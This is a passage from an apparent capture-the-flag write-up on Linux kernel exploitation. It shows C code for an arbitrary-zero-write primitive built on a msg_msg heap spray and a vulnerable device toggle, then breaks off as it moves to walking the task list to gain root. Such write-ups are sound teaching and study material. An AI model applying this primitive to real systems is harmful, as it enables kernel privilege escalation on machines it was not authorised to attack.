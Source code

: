 The primitive for writing a 1 is not implemented since it's not useful to the challenge solving. The code snippet below implements the other primitive, following the same method used for the `read_int`:

```c
#define MSG_SIZE 2040 - 48
#define PUBLIC_OFF 0x10

void write_int_zero(unsigned long where) {

    // Check current value
    if (!read_int(where)) {
        // Already zero, nothing to do
        return;
    }

    // Check owner_uid constraint
    unsigned int value = read_int(where + 4);
    unsigned int curr = (unsigned int) getuid();
    if (value != curr) {
        printf("[*] Cannot write here: found value %u, current uid %u!", value, curr);
        exit(-1);
    }

    // Prepare structure
    struct {
        long mtype;
        char mtext[MSG_SIZE];
    } msg;
    msg.mtype = 1;
    memset(msg.mtext, 0x41, MSG_SIZE - 1);
    msg.mtext[MSG_SIZE] = 0;

    // Set first controllable pointer to <desired_address>-0x10
    unsigned long *ptr = (unsigned long *) msg.mtext;
    ptr[0] = where - PUBLIC_OFF;

    // Post message - allocate msg_msg
    int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    msgsnd(msqid, &msg, sizeof(msg.mtext), 0);

    // Write
    dev_toggle(6);

    // Receive message - free msg_msg
    msgrcv(msqid, &msg, sizeof(msg.mtext), 0, IPC_NOWAIT);

}
```

##### Traversing the tasks list and getting root

The next step consists in traversing the tasks list to find the current process' kernel task. These are the steps performed:
